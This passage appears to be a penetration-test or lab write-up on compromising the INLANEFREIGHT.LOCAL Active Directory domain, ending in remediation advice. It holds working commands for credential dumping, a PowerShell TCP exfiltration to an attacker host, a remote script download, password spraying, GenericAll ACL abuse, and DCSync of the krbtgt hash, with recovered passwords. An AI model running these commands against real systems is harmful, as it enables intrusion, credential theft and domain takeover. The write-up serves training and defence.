

**b) Impacket secretsdump (remote, via Remote Registry service):**

```bash
impacket-secretsdump administrator:'Welcome1'@172.16.7.60
```



This remotely starts the `RemoteRegistry` service, dumps the SAM, SECURITY, and SYSTEM hives over the wire via named-pipe RPC, and parses them locally — no file transfer needed.

**c) Manual registry hive extraction (opsec-aware / offline alternative):**

```powershell
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

followed by a raw TCP file transfer back to the attacker host and offline parsing:

```powershell
$c = New-Object System.Net.Sockets.TcpClient('172.16.7.240', 8888)
$s = $c.GetStream()
$b = [System.IO.File]::ReadAllBytes('sam/security/system.save')
$s.Write($b, 0, $b.Length); $s.Close(); $c.Close()
```

```bash
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

**Recovered credentials:** `mssqlsvc : Sup3rS3cur3maY5ql$3rverE`

---

## 12. Phase 9 — Lateral Movement & Active Directory Enumeration (MS01)

### 12.1 Reusing the Service Account

The `mssqlsvc` credential was tested against MS01 and succeeded via both RDP and WinRM:

```bash
proxychains xfreerdp /v:172.16.7.50 /u:mssqlsvc /p:'Sup3rS3cur3maY5ql$3rverE'
evil-winrm -i 172.16.7.50 -u mssqlsvc -p 'Sup3rS3cur3maY5ql$3rverE'
```


This indicates the service account had been provisioned with excessive interactive logon rights across multiple hosts — itself a finding worth flagging, since service accounts should generally be denied interactive/remote-desktop logon rights entirely.

### 12.2 Active Directory ACL Enumeration

PowerView was staged to the target and used to enumerate Access Control Entries (ACEs) on sensitive AD objects — specifically searching for any principal holding dangerous rights over privileged groups:

```powershell
Invoke-WebRequest http://172.16.7.240:8888/PowerView.ps1 -OutFile PowerView.ps1
Import-Module .\PowerView.ps1

Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs |
  ? {$_.ActiveDirectoryRights -match "GenericAll"} |
  select SecurityIdentifier, ActiveDirectoryRights
```



```powershell
Convert-SidToName S-1-5-21-3327542485-274640656-2609762496-4611
# INLANEFREIGHT\CT059
```


**Critical finding:** a standard domain user object, `CT059`, had been granted **`GenericAll`** directly on the **Domain Admins** group. `GenericAll` grants full control of the target object — for a group object, this means the holder can **add or remove members at will**, representing a direct, one-step escalation path to Domain Admin for anyone who compromises `CT059`.

### 12.3 Compromising CT059

```bash
crackmapexec smb 172.16.7.3 -u CT059 -p /usr/share/wordlists/rockyou.txt
```


**Recovered credentials:** `CT059 : charlie1`

---

## 13. Phase 10 — ACL Abuse: Domain Privilege Escalation

With control of `CT059`, two independent exploitation paths for the `GenericAll` ACE were demonstrated — showing the assessor understands *why* the access control grants multiple distinct abuse primitives, not just one memorised command.

### 13.1 Abuse Path A — Forced Password Reset

`GenericAll` includes the extended right to reset a user's password without needing to know the current one:

```powershell
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

$newPassword = ConvertTo-SecureString 'hacked' -AsPlainText -Force
Set-DomainUserPassword -Identity administrator -AccountPassword $newPassword -Credential $Cred -Verbose
```

A native equivalent (no PowerView dependency, useful for minimising tooling footprint) was also validated:

```cmd
net user administrator Welcome1 /domain
```


### 13.2 Abuse Path B — Direct Group Membership Addition

Since the ACE was granted directly on the `Domain Admins` **group object**, the most direct and reliable abuse is simply adding the controlled account into the group:

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CT059' -Credential $Cred -Verbose
```

and the native LDAP equivalent:

```cmd
net group "Domain Admins" "CT059" /add /domain
```



Verification with `Get-DomainGroupMember` confirmed `CT059` — a standard user compromised through a dictionary password crack — is now a confirmed member of **Domain Admins**.

---

## 14. Phase 11 — Domain Controller Compromise & Persistence

### 14.1 Validating Domain Admin Access

Both abuse paths were validated independently against `DC01`:

```bash
proxychains evil-winrm -i 172.16.7.3 -u Administrator -p 'Welcome1'
evil-winrm -i 172.16.7.3 -u CT059 -p 'charlie1'
```





Both sessions returned interactive access to the Domain Controller and retrieved the flag from `C:\Users\Administrator\Desktop`, confirming full **Domain Admin** compromise through two independently reproducible attack paths.

### 14.2 Extracting the krbtgt Hash (Persistence)

As the final step, domain credential material was extracted via **DCSync** — Domain Admin rights (or any account delegated `Replicating Directory Changes` + `Replicating Directory Changes All`) allow an attacker to impersonate a Domain Controller and request replication of arbitrary account secrets, including the `krbtgt` account, without ever touching the NTDS.dit file directly on disk:

```bash
impacket-secretsdump administrator:Welcome1@172.16.7.3 -just-dc-user KRBTGT
```



```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f:::
```

### 14.3 Why the krbtgt Hash Matters

The `krbtgt` account's NT hash is used to sign **every Kerberos Ticket Granting Ticket (TGT)** issued within the domain. Possession of this hash allows an attacker to forge arbitrary TGTs offline — a **Golden Ticket** — granting indefinite, re-entrant access to any resource in the domain as any user (including accounts that do not yet exist, or have since had their passwords changed), and surviving even a full domain-wide password reset. For this reason, extraction of the krbtgt hash is treated as one of the most severe possible findings in an AD engagement and triggers an organisation-wide remediation requirement: the krbtgt password must be reset **twice**, with replication time in between, per Microsoft guidance.

For completeness, a full domain credential dump was also captured to demonstrate the total blast radius:

```bash
proxychains impacket-secretsdump Administrator:'Welcome1'@172.16.7.3
```



---

## 15. Credential & Access Summary

| Credential | Source / Technique | Access Gained |
|---|---|---|
| `AB920 : weasal` | LLMNR/NBT-NS poisoning + hashcat crack | WinRM on MS01 (standard user) |
| `BR086 : Welcome1` | Password spraying (kerbrute) | SMB read access incl. Department Shares |
| `netdb : D@ta_bAse_adm1n!` | Plaintext creds in `web.config` on SMB share | MSSQL authentication on SQL01 |
| `mssqlsvc : Sup3rS3cur3maY5ql$3rverE` | Local SAM/LSA dump on SQL01 (post-SYSTEM) | RDP/WinRM on MS01 |
| `CT059 : charlie1` | Targeted password spray (GenericAll holder) | ACL abuse → Domain Admin |
| `Administrator : Welcome1` (domain) | ACL abuse (password reset / group add) | Domain Admin on DC01 |
| `krbtgt` NT hash | DCSync via `secretsdump -just-dc-user` | Golden Ticket persistence capability |

---

## 16. Full Attack Path Narrative

1. Pivoted into the internal segment via SSH SOCKS proxy from an external jump host.
2. Enumerated live hosts and services; identified DC01, MS01 (SMB+WinRM) and SQL01 (SMB only).
3. Null-session/anonymous enumeration was hardened and yielded nothing.
4. **LLMNR poisoning** captured an NTLMv2 hash for `AB920`, cracked offline to obtain a foothold via WinRM on MS01.
5. Kerberoasting was attempted and found no viable SPNs.
6. Authenticated user enumeration (`AB920`) produced a full username list, enabling a **password spray** that recovered `BR086:Welcome1`.
7. SMB share enumeration as `BR086` uncovered a `Department Shares\IT\Private\Development\web.config` file containing a **plaintext MSSQL credential**.
8. Authenticated to **SQL01's MSSQL instance** as `netdb` and abused `xp_cmdshell` for OS command execution under a low-privileged service context.
9. Identified `SeImpersonatePrivilege` on the service token; delivered and executed a reverse shell payload, then escalated to **SYSTEM** using named-pipe impersonation (Metasploit `getsystem` and manually with **PrintSpoofer**).
10. Dumped local SAM/LSA secrets on SQL01, recovering the `mssqlsvc` domain service account credential.
11. Reused `mssqlsvc` for lateral movement to **MS01** via RDP/WinRM.
12. Enumerated the domain's ACLs with PowerView and found a standard user, `CT059`, held **`GenericAll` on the Domain Admins group**.
13. Cracked `CT059`'s password via targeted spraying.
14. Abused the `GenericAll` ACE two ways — forced password reset and direct group-membership addition — to achieve **Domain Admin**.
15. Validated Domain Admin access directly against **DC01**.
16. Performed a **DCSync** attack to extract the `krbtgt` hash, demonstrating the capability for long-term, detection-resistant persistence via Golden Tickets, and completed a full domain credential dump to establish total compromise scope.

---

## 17. Remediation Recommendations

| Finding | Recommendation |
|---|---|
| LLMNR/NBT-NS poisoning | Disable LLMNR and NBT-NS via Group Policy; enforce SMB signing domain-wide to prevent relay even if poisoning succeeds |
| Weak/dictionary passwords | Enforce a strong password policy and/or passphrase-based policy; deploy a banned-password list; monitor for password-spray patterns |
| Credentials in `web.config` on a shared drive | Remove plaintext secrets from application config files; use a managed secrets store (Credential Manager, Key Vault, gMSA); review file share permissions |
| `xp_cmdshell` enabled on production MSSQL | Disable `xp_cmdshell` unless explicitly required; run the SQL service under a tightly scoped, non-privileged service account and deny interactive logon rights |
| `SeImpersonatePrivilege` abuse (Potato-family LPE) | Monitor for named-pipe impersonation techniques; apply least privilege to service accounts; deploy EDR detections for anomalous spoolsv.exe/named-pipe activity |
| Service account with interactive logon rights across multiple hosts | Restrict service accounts to "Log on as a service" only; deny interactive and RDP logon via GPO |
| `GenericAll` on Domain Admins group granted to a standard user | Remove the ACE immediately; perform a full domain-wide ACL audit (e.g., BloodHound) for other dangerous delegations on privileged groups and accounts |
| krbtgt hash exposure via DCSync | Reset the `krbtgt` password **twice**, allowing AD replication between resets; restrict `Replicating Directory Changes` rights to Domain Admins/Domain Controllers only; monitor for DCSync behaviour via SIEM |

---

## 18. Conclusion

This assessment achieved full domain compromise of INLANEFREIGHT.LOCAL through a realistic, multi-stage attack chain that required no exploitation of unpatched software vulnerabilities. Every step relied on common, systemic weaknesses — broadcast name-resolution poisoning, password reuse, secrets left in accessible file shares, excessive service-account privilege, and an over-permissive Active Directory ACE — that are frequently found in production enterprise environments. The chain demonstrates the compounding risk of small, individually "low severity" misconfigurations: no single finding here would be rated Critical in isolation, yet together they produced total domain takeover and durable, detection-resistant persistence.
